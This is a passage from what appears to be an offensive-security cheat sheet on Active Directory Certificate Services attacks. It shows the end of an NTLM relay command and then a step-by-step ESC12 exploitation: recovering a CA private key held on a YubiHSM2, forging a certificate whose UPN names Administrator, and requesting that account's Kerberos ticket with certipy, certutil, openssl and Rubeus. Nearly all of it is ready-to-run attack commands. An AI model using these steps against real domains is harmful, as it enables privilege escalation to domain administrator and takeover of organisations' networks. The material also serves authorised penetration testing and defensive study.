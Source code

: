     ```ps1
    ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
    ```

## ESC12 - ADCS CA on YubiHSM

> The ESC12 vulnerability occurs when a Certificate Authority (CA) stores its private key on a YubiHSM2 device, which requires an authentication key (password) to access. This password is stored in the registry in cleartext, allowing an attacker with shell access to the CA server to recover the private key.

**Requirements**:

* CA certificate
* Shell access on the root CA server

**Exploitation**:

* Generate a certicate for the user

  ```ps1
  certipy req -target dc-esc.esc.local -dc-ip 10.10.10.10 -u "user_esc12@esc.local" -p 'P@ssw0rd' -template User -ca <CA-Common-Name>
  certipy cert -pfx user_esc12.pfx -nokey -out user_esc12.crt
  certipy cert -pfx user_esc12.pfx -nocert -out user_esc12.key
  ```

* Importing the CA certificate into the user store

  ```ps1
  certutil -addstore -user my .\Root-CA-5.cer
  ```

* Associated with the private key in the YubiHSM2 device

  ```ps1
  certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA-Common-Name>
  ```

* Sign `user_esc12.crt` and specify a `Subject Alternative Name` using the `extension.inf` file.

  ```ps1
  certutil -sign ./user_esc12.crt new.crt @extension.inf
  ```

* Content of extension.inf

  ```cs
  [Extensions]
  2.5.29.17 = "{text}"
  _continue_ = "UPN=Administrator@esc.local&"
  ```

* Use the certificate to get the TGT of the Administrator

  ```ps1
  openssl.exe pkcs12 -export -in new.crt -inkey user_esc12.key -out user_esc12_Administrator.pfx
  Rubeus.exe asktgt /user:Administrator /certificate:user_esc12_Administrator.pfx /domain:esc.local /dc:192.168.1.2 /show /nowrap
  ```
